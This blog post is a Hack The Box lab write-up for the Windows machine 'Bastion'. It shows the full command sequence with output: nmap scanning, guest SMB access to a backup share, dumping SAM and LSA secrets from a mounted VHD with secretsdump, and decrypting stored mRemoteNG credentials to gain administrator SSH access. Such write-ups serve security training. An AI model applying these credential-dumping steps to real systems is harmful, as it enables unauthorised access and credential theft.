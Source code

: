 ```yaml
---
layout: post
title: HTB - bastion
date: 2025-01-10 13:49 -0400
---
```


Easy difficulty windows machine with an exposed backup. So we can get a lot of information from the registry files. Eventually allowing for admin access.

![image](/assets/img/bastion.png)

# starting with nmap

```bash
~/workspace/projects/htb/bastion » sudo nmap -p- $(cat ip.txt) --min-rate 1024
Nmap scan report for 10.10.10.134
Host is up (0.16s latency).
Not shown: 65522 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 71.88 seconds
~/workspace/projects/htb/bastion » sudo nmap -p22,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669,49670 $(cat ip.txt) --min-rate 1024 -sV -sC
Starting Nmap 7.93 ( https://nmap.org ) at 2025-01-09 10:25 -04
Nmap scan report for 10.10.10.134
Host is up (0.23s latency).

PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 3a56ae753c780ec8564dcb1c22bf458a (RSA)
|   256 cc2e56ab1997d5bb03fb82cd63da6801 (ECDSA)
|_  256 935f5daaca9f53e7f282e664a8a3a018 (ED25519)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m47s, deviation: 34m36s, median: 11s
| smb2-time:
|   date: 2025-01-09T14:26:38
|_  start_date: 2025-01-09T14:19:30
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-01-09T15:26:39+01:00
| smb2-security-mode:
|   311:
|_    Message signing enabled but not required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 73.65 seconds
```

Using the guest account we can see a Backups share with READ and WRITE privs.

```bash
~/workspace/projects/htb/bastion » netexec smb $(cat ip.txt) -u guest -p '' --shares        130 ↵ shafou@shafou
SMB         10.10.10.134    445    BASTION          [*] Windows Server 2016 Standard 14393 x64 (name:BASTION) (domain:Bastion) (signing:False) (SMBv1:True)
SMB         10.10.10.134    445    BASTION          [+] Bastion\guest: (Guest)
SMB         10.10.10.134    445    BASTION          [*] Enumerated shares
SMB         10.10.10.134    445    BASTION          Share           Permissions     Remark
SMB         10.10.10.134    445    BASTION          -----           -----------     ------
SMB         10.10.10.134    445    BASTION          ADMIN$                          Remote Admin
SMB         10.10.10.134    445    BASTION          Backups         READ,WRITE
SMB         10.10.10.134    445    BASTION          C$                              Default share
SMB         10.10.10.134    445    BASTION          IPC$                            Remote IPC
```

We can use smbmap to list the files.

```bash
~/workspace/projects/htb/bastion » smbmap -H 10.10.10.134 -r Backups --depth 8 --no-banner -u guest
[+] IP: 10.10.10.134:445	Name: 10.10.10.134        	Status: Authenticated
Disk                                                  	Permissions	Comment
----                                                  	-----------	-------
ADMIN$                                            	NO ACCESS	Remote Admin
# ...
Backups                                           	READ, WRITE	
fw--w--w--              116 Tue Apr 16 07:43:19 2019	note.txt
fr--r--r--         37761024 Fri Feb 22 08:44:03 2019	9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd
fr--r--r--       5418299392 Fri Feb 22 08:45:32 2019	9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
# ...
C$                                                	NO ACCESS	Default share
IPC$                                              	READ ONLY	Remote IPC
```

The note has the message:
`Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.`
And there are some interesting .vhd files, I think those are vm files.

Turns out you can mount them to your system rather than download then. Might need `libguestfs-tools` package on debian.

`mount -t cifs //10.10.10.134/backups /mnt -o user=,password=`
very interesting

after that we get the files from the windows registry
- Windows/System32/config/SAM
- Windows/System32/config/SECURITY
- Windows/System32/config/SYSTEM

and use inpacket secretsdump.py to get the password hashes

```bash
~/workspace/projects/htb/bastion » secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DefaultPassword
(Unknown User):bureaulampje
[*] DPAPI_SYSTEM
dpapi_machinekey:0x32764bdcb45f472159af59f1dc287fd1920016a6
dpapi_userkey:0xd2e02883757da99914e3138496705b223e9d03dd
[*] Cleaning up...
```

I think from here we can try to winrm with the hash maybe?
Not quite.

Putting the hashes on crackstation shows that one is the empty hash the other is `bureaulampje`

![image](/assets/img/bastion1.png)

Lets check winrm for `L4mpje:bureaulampje`. 

nothing, maybe smb or some other.

Ssh was the correct path, Usually it is not open in windows challenges.

```bash
l4mpje@BASTION C:\Users\L4mpje>type Desktop\user.txt
0f07b***************************
```

# root
Privileges seem normal.

```bash
l4mpje@BASTION C:\Users\L4mpje>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Services also seem normal.

```bash
l4mpje@BASTION C:\>netstat -ano | findstr LISTENING
  TCP    0.0.0.0:22             0.0.0.0:0              LISTENING       1744
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       776
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       512
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       948
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       872
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1592
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       620
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       1464
  TCP    0.0.0.0:49670          0.0.0.0:0              LISTENING       628
  TCP    10.10.10.134:139       0.0.0.0:0              LISTENING       4
  TCP    [::]:22                [::]:0                 LISTENING       1744
  TCP    [::]:135               [::]:0                 LISTENING       776
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:5985              [::]:0                 LISTENING       4
  TCP    [::]:47001             [::]:0                 LISTENING       4
  TCP    [::]:49664             [::]:0                 LISTENING       512
  TCP    [::]:49665             [::]:0                 LISTENING       948
  TCP    [::]:49666             [::]:0                 LISTENING       872
  TCP    [::]:49667             [::]:0                 LISTENING       1592
  TCP    [::]:49668             [::]:0                 LISTENING       620
  TCP    [::]:49669             [::]:0                 LISTENING       1464
  TCP    [::]:49670             [::]:0                 LISTENING       628
```

Those two directories are the most interesting on Program Files.

```bash
22-02-2019  14:19    <DIR>          OpenSSH-Win64
...
22-02-2019  14:01    <DIR>          mRemoteNG
```

Seems like there is a bug in current mRemoteNG version.
The credentials are stored in plaintext it seems so if we get a config we can just bruteforce the hash.

```console
1.76.11 (2018-10-18):

Fixes:
------
#1139: Feature "Reconnect to previously opened sessions" not working
#1136: Putty window not maximized
```

Running the executable doesn't do anything.

The config is on AppData, you just take the password from it and pass to the poc script.
[poc](https://github.com/S1lkys/CVE-2023-30367-mRemoteNG-password-dumper)

```
~/workspace/projects/htb/bastion » py mremoteng_decrypt.py -s $(cat hash.txt)                     shafou@shafou
Password: thXLHM96BeKL0ER2
```

This should be the admin ssh? And it is.

```bash
administrator@BASTION C:\Users\Administrator>type .\Desktop\root.txt
26cf7***************************
```
